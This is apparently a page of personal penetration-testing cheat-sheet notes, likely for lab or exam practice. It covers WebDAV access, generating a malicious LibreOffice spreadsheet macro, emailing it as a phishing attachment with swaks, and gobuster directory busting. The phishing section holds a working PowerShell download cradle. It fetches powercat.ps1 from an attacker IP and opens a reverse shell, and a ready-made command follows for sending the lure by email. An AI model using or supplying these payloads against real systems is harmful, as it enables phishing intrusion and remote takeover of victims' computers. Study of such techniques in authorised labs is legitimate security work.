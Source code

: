 ## WebDAV 
Port: 
Authenticate to WebDAV server 
```
cadaver $IP  
```
- After auth -> pop a shell onto the server with put command

# Phishing 

## Malicious macro creation 

## Malicious Macro Generator LibreOffice/OpenOffice
[GitHub Repo](https://github.com/0bfxgh0st/MMG-LO/)
Create malicious calc spreadsheet that downloads PowerCat.ps1 to target and launches reverse shell 
### Payload in mmg-ods.py
```
build_payload = (f'IEX(New-Object System.Net.WebClient).DownloadString("http://192.168.45.152/powercat.ps1");powercat -c {ip} -p {port} -e powershell')
```

### Generate malicious ODS file 
```
python3 mmg-ods.py windows <ATTACKER IP> <ATTACKER PORT>
```

## Send Phishing Email 

### swaks 
Send malicious LibreOffice .ods file 
```
sudo swaks -t mailadmin@localhost --from jonas@localhost --attach @file.ods --server 192.168.236.140 --body "Please check this spreadsheet" --header "Subject: Please check this spreadsheet"
```

## Web App
### Directory Busting 

Specify output directory with `-o`
```
gobuster -u http://10.10.10.121 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o http-root-gobuster.log
```

```
gobuster dir -u http://soccer.htb/ -w /usr/share/Seclists/Discovery/Web-Content/raft-small-words.txt
```
